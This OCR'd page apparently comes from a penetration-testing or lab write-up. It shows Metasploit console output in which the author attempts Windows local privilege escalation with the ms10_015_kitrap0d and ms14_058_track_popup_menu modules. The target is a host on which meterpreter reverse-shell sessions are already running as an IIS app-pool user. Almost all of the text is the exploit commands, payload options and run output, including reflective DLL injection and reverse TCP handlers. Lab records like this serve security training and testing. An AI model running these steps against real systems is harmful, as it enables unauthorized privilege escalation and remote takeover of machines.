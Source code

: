     
    msf exploit(ms10_015_kitrap0d) > set LHOST 192.168.0.99
    LHOST => 192.168.0.99
    msf exploit(ms10_015_kitrap0d) > set LPORT 5555
    LPORT => 5555
    msf exploit(ms10_015_kitrap0d) > set SESSION 16
    SESSION => 16
    msf exploit(ms10_015_kitrap0d) > run
    
    [-] Exploit failed: Msf::OptionValidateError The following options failed to validate: SESSION.
    [*] Exploit completed, but no session was created.

    msf exploit(ms10_015_kitrap0d) > sessions
    Active sessions
    ===============
    
      Id  Type                     Information                         Connection
      --  ----                     -----------                         ----------
      17  meterpreter x86/windows  IIS APPPOOL\MyFirstSite @ IE11WIN7  192.168.0.99:4444 -> 192.168.0.102:49159 (192.168.0.102)
      18  meterpreter x86/windows  IIS APPPOOL\MyFirstSite @ IE11WIN7  192.168.0.99:5555 -> 192.168.0.102:49160 (192.168.0.102)
    
    msf exploit(ms10_015_kitrap0d) > set SESSION 17
    SESSION => 17
    msf exploit(ms10_015_kitrap0d) > run
    
    [*] Started reverse TCP handler on 192.168.0.99:5555 
    [*] Launching notepad to host the exploit...
    [+] Process 4056 launched.
    [*] Reflectively injecting the exploit DLL into 4056...
    [*] Injecting exploit into 4056 ...
    [*] Exploit injected. Injecting payload into 4056...
    [*] Payload injected. Executing exploit...
    [+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
    [*] Exploit completed, but no session was created.

    
Failed to work @ 14:14. The machine appears to be fairly well patched. OK, quickly try out another MS14-058.


    msf exploit(ms13_081_track_popup_menu) > use exploit/windows/local/ms14_058_track_popup_menu
    msf exploit(ms14_058_track_popup_menu) > options
    
    Module options (exploit/windows/local/ms14_058_track_popup_menu):
    
       Name     Current Setting  Required  Description
       ----     ---------------  --------  -----------
       SESSION  17               yes       The session to run this module on.
    
    
    Payload options (windows/meterpreter/reverse_tcp):
    
       Name      Current Setting  Required  Description
       ----      ---------------  --------  -----------
       EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
       LHOST     192.168.0.99     yes       The listen address
       LPORT     5555             yes       The listen port
    